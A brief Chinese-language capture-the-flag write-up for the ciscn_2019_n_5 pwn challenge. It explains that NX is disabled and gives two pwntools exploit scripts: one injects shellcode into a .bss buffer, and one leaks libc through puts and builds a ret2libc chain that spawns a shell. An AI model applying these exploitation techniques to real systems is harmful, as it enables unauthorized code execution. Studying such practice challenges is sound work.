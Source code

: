 ![image-20231228140132298](../assets/img/old_imgs/image-20231228140132298.png)

1. 程序没有开启`NX`保护,并且是`RWX`权限可以运行段上代码
2. 预期解:往`name`中写入`shellcode`,再利用`get`转跳到相应的`.bss`段上运行`shellcode`
3. 非预期解:通过`get`泄露`puts()`地址,泄露`libc`地址,劫持程序流得到`shell`.注意这里`64`位`($rdi)`和`32`位程序传参的不同.

```python
from pwn import*
context(log_level = 'debug', arch = 'amd64', os = 'linux')
shellcode=asm(shellcraft.sh())
p=process('./ciscn_2019_n_5')
p.recvuntil(b'name\n')
p.sendline(shellcode)
p.recvuntil(b'me?\n')
name=0x601080
payload=b'a'*0x28+p64(name)
p.sendline(payload)
p.interactive()
```

```python
from pwn import *
#io = gdb.debug('./ciscn_2019_n_5','b *0x40067a')
context.log_level = 'debug'
io = process('./ciscn_2019_n_5')
#io = gdb.debug('./ciscn_2019_n_5','b main')
elf = ELF('./ciscn_2019_n_5')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
padding = 0x20
#泄露libc
io.sendlineafter('tell me your name\n',b'1')
#padding+pop_rdi+puts_got+puts_plt+main_addr
payload1 = b'A'*0x28+p64(0x0000000000400713)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter('What do you want to say to me?\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr ->',hex(puts_addr))
io.sendlineafter('tell me your name\n',b'1')
#payload构造
Liboffset = puts_addr-Lib.sym['puts']
sys_addr = Lib.sym['system']+Liboffset
bin_sh_addr = next(Lib.search(b'/bin/sh'))+Liboffset
payload2 = b'A'*(0x28)+p64(0x0000000000400713)+p64(bin_sh_addr)+p64(0x00000000004004c9)+p64(sys_addr)
io.sendlineafter('What do you want to say to me?\n',payload2)
io.interactive()
```
